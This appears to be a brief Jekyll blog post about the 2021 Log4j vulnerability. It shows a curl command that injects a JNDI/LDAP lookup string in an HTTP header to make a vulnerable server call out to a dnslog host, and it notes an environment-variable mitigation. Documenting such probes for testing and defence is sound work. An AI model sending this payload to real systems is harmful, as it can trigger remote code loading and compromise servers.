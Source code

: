 ```yaml
---
layout: post
title:  "log4j"
date:   2021-12-09 13:11:00 +0200
categories: log4j java tomcat
---
```

```
curl https://hostname -H 'X-Api-Version: ${jndi:ldap://xxx.dnslog.cn/a}'
```
mitigation:<br>
(https://www.docker.com/blog/apache-log4j-2-cve-2021-44228/)[https://www.docker.com/blog/apache-log4j-2-cve-2021-44228/]
```
ENV LOG4J_FORMAT_MSG_NO_LOOKUPS=true
```
